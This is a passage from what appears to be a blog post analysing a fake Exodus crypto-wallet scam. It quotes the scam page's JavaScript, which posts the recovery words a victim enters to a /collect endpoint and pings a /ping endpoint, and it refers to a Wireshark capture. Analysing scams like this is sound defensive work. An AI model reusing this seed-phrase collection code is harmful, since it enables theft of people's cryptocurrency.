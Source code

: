 If all the entered words are in the dictionary, it will allow the use of the "Continue" button to send a "POST" request to a `/collect` endpoint on the server.

```javascript
function sendPostRequest(words) {
    
    var data = {
        name: 'exodus',
        data: words
    };
    
    fetch('/collect', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify(data)
    })
    .then(response => {
        if (!response.ok) {
            throw new Error('Error during the request');
        }
        return response.json();
    })
    .then(data => {
        console.log('Response:', data);
        
    })
    .catch(error => {
        console.error('There is an error:', error);
    });
}
````

Here you can see in the payload, the words I typed, selected from the dictionary mentioned above.

[![Wireshark](/blog/images/2024-03-18/wireshark-2_50.png)](/blog/images/2024-03-18/wireshark-2.png)

It also periodically 'pings' the `/ping` endpoint on the server with a simple payload of `{" name":"exodus"}`. Presumably for network connectivity checking, telemetry or seeing which of the scam wallet applications are in use.

```javascript
function sendPing() {
    
    var data = {
        name: 'exodus',
    };
    
    fetch('/ping', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify(data)
    })
    .then(response => {
        if (!response.ok) {
            throw new Error('Error during the request');
        }
        return response.json();
    })
    .then(data => {
        console.log('Response:', data);
        
    })
```